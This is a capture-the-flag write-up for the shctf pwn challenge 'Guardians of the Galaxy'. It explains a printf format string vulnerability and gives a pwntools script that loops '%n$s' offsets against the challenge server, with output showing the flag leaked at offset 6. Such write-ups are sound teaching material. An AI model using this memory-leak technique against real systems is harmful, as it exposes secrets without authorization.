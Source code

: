 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
tags:
- ctf
- shctf
- pwn
description: "Writeup for the shctf pwn challenge [Guardians of the Galaxy]."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: https://files.catbox.moe/5udwod.png
---
```


## 📜 Description

Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format?
`nc 0.cloud.chals.io 12690`
**Author**: GlitchArchetype

* [guardians](https://github.com/WhileSEC/shctf/blob/main/challenges/pwn/guardians-of-the-galaxy/files/guardians)

---

## 🔍 Detailed Solution

Let's look at what happens when you run that binary given to us.

```text
$ ./guardians 
Error, please message admins with 'infinity_error'.
```

This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

```text
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
```

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python/pwntools script here to achieve this loop:

```py
from pwn import *

for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.readS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
```

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

```text
$ python3 exp.py
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 0...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 1...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 2...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 3...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 4...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 5...
[*] Closed connection to 0.cloud.chals.io port 12690
[+] Opening connection to 0.cloud.chals.io on port 12690: Done
[*] Trying offset 6...
[+] Does Quill manage to win the dance battle?
    
    Oh no, Ronano has seen through the distraction!
    shctf{im_distracting_you}
```
